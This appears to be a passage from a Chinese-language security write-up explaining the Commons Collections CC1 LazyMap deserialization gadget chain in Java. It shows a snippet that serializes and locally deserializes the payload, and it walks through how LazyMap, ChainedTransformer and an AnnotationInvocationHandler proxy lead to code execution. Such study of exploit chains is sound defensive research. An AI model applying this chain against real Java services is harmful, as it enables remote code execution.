 ```java
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handlerPayload);
        oos.close();

        // 本地测试触发
        // System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();


    }
}
```

调用栈在最上方。

其主要区别为利用了`LazyMap.get()`调用`this.factory.transform()`，当实例化传入Transformer，调用get方法就会触发transform()方法

```java
public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
```

而由于key未知，但是提供了ConstantTransformer，无论输入是什么输出都是定值，因此构造ChainedTransformer：

![image-20220718171143896](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220718171143896.png)

生成lazymap

![image-20220718171258351](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220718171258351.png)

之后我们利用**Proxy动态代理+AnnotationInvocationHandler调用LazyMap.get()**

`AnnotationInvocationHandler.invoke()`在调用除去指定的方法的其他Map类方法时进入default调用get方法

![image-20220718171931438](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220718171931438.png)

而memberValues刚好是实例化AnnotationInvocationHandler传入的Map

```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        this.type = var1;
        this.memberValues = var2;
    }
```

之后构造动态代理**代理一个Map类型，反序列化时通过 readObject 来触发 invoke，再触发 get 再触发 transform**从而执行恶意代码。

其实这里也就是cc1的Lzaymap链。
